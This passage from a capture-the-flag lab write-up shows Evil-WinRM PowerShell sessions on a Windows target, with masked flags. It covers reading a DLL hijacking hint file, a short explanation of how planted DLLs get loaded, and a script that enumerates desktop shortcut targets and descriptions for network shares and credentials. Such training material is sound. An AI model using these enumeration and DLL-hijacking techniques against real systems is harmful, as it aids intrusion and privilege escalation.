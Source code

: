 ```powershell
*Evil-WinRM* PS C:\> Get-Content C:\ProgramData\Custom\readme.txt
REM DLL Hijacking POC
REM Any DLL placed here will be loaded before system DLLs
REM Flag: FLAG{G************9}
```

**🎯 FLAG 22 FOUND**: FLAG{G**********9} - DLL hijack path

**DLL Hijacking Explained**:
1. Windows searches for DLLs in PATH order
2. If we control an early PATH directory
3. We can place malicious DLLs there
4. Programs load our DLL instead of the legitimate one

---

## Phase 9: User Data and Artifacts

### Understanding User Artifacts

**Why User Artifacts Matter**:
- Users leave traces everywhere
- Clipboard, shortcuts, deleted files
- Temporary data persists
- Users don't know these exist

### FLAG 23: Desktop Shortcut Properties

**Location**: Shortcut metadata  
**Difficulty**: Easy

```powershell
# Analyze desktop shortcuts
*Evil-WinRM* PS C:\> $WshShell = New-Object -ComObject WScript.Shell
*Evil-WinRM* PS C:\> $shortcuts = Get-ChildItem "C:\Users\Public\Desktop\*.lnk"
*Evil-WinRM* PS C:\> foreach($shortcut in $shortcuts) {
    $sh = $WshShell.CreateShortcut($shortcut.FullName)
    Write-Host "Shortcut: $($shortcut.Name)"
    Write-Host "Target: $($sh.TargetPath)"
    Write-Host "Description: $($sh.Description)"
    Write-Host "---"
}

Shortcut: Server Shares.lnk
Target: \\WIN2019-SRV
Description: Connect to server - Flag: FLAG{P***********0}
---
```

**🎯 FLAG 23 FOUND**: FLAG{P**********0} - Desktop shortcut

**Shortcut Intelligence**:
- Reveals network shares
- Contains descriptions/comments
- Shows recently accessed resources
- May contain credentials in arguments
